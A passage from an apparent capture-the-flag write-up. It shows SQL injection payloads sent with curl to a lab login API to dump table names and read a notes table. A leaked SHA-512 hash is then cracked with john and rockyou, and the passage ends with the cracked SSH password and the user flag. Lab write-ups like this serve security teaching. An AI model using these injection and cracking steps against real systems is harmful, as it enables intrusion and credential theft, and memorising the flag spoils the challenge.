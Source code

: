 Now we can dump table names.

```bash
curl -X POST -d "username=test' UNION SELECT 1,tbl_name FROM sqlite_master--&password=test" http://10.10.57.252/api/login
```

```json
[
  [
    1, 
    "notes" => Let's try this one
  ], 
  [
    1, 
    "sqlite_sequence"
  ], 
  [
    1, 
    "users"
  ]
]
```

```bash
curl -X POST -d "username=test' UNION SELECT 1,notes FROM notes--&password=test" http://10.10.57.252/api/login
```

```json
[
  [
    1, 
    "I have left my notes on the server.  They will me help get the family back together. "
  ], 
  [
    1, 
    "My Password is eaf0651dabef9c7de8a70843030924d335a2a8ff5fd1b13c4cb099e66efe25ecaa607c4b7dd99c43b0c01af669c90fd6a14933422cf984324f645b84427343f4\n"
  ]
]
```

Let's crack the hash using john!

john --format=Raw-SHA512 hash.txt --wordlist=/usr/share/wordlists/rockyou.txt

```bash
experiment       (?)
```

And it is Mary Ann's SSH password. We are in!

# user.flag

```
THM{Mary_Ann_notes}
```
